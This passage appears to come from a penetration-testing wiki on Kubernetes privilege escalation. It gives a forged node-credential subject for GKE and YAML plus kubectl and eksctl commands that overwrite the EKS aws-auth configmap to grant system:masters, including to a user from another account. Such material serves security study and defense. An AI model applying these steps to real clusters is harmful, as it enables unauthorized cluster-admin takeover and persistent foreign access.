The way to bypass this is just to **create a node credentials for the node name where the container with the interesting secrets is mounted** (but just check how to do it in the first post):

```bash
"/O=system:nodes/CN=system:node:gke-cluster19-default-pool-6c73b1-8cj1"
```

### AWS EKS aws-auth configmaps

Principals that can modify **`configmaps`** in the kube-system namespace on EKS (need to be in AWS) clusters can obtain cluster admin privileges by overwriting the **aws-auth** configmap.\
The verbs needed are **`update`** and **`patch`**, or **`create`** if configmap wasn't created:

```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
  name: aws-auth
  namespace: kube-system
data:
  mapRoles: |
    - rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
      username: system:node{{EC2PrivateDNSName}}
      groups:
        - system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

# Modify it
kubectl edit -n kube-system configmap/aws-auth
## You can modify it to even give access to users from other accounts
data:
  mapRoles: |
    - rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
      username: system:node{{EC2PrivateDNSName}}
      groups:
        - system:masters
  mapUsers: |
    - userarn: arn:aws:iam::098765432123:user/SomeUserTestName
      username: admin
      groups:
        - system:masters
```
